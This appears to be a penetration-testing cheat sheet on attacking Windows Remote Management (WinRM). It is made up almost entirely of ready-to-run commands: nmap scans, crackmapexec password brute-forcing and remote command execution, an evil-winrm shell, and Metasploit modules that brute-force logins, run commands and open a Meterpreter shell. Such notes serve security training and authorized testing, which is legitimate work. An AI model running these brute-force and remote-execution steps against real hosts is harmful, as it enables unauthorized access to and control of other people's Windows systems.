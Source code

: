 - Windows Remote Management (WinRM) is a protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
- WinRM is typically used to:
	- remotely access and interact with windows hosts on a local network.
	- remotely access and execute commands on windows systems
- It uses TCP port 5985 and 5986 (HTTPS).

***
***
## Practical

#### Scan the Target
```
nmap IP
nmap -p5985 -sV IP
```

### `Crackmapexec`
##### To perform the Brute Force attack:
```
crackmapexec winrm IP -u wordlists/username -p passwd_wordlist 
```

##### To perform Arbitrary cmd on the target
```
crackmapexec winrm IP -u administrator -p password -x 'whoami'
```

##### To obtain a cmd shell
```
evil-winrm.rb -u administrator -p 'password' -i IP
```
### Metasploit
##### Brute Force to find valid Users and their Passwords
This is the first thing we need to do:
```
msfdb run
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set rhosts Target
set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
set password anything
run
```
Note: We are setting the PASSWORD because in the recent version of the `winrm_login` module, the PASSWORD option is required unless using Kerberos authentication. 

##### Checking `WinRM` supported Authentication Method
This is very important to know before we try to connect to the `WinRM` service. We need to use a valid authentication method while connecting to the service. 
```
use auxiliary/scanner/winrm/winrm_auth_methods
set rhosts Target
run
```

##### Execute Command on the Target
```
use auxiliary/scanner/winrm/winrm_cmd
set rhosts Target
set username administrator
set password passwd
set cmd whoami
run
```

##### Exploit Module to get Meterpreter Shell
```
use exploit/windows/winrm/winrm_script_exec
set rhosts Target
set username administrator
set password passwd
set force_vbs true
run
```
In Metasploit, `Force_VBS` is used in certain exploits to force the use of Visual Basic Script (VBS) for executing payloads. This can be particularly useful in environments where other scripting languages or methods might be restricted or less effective.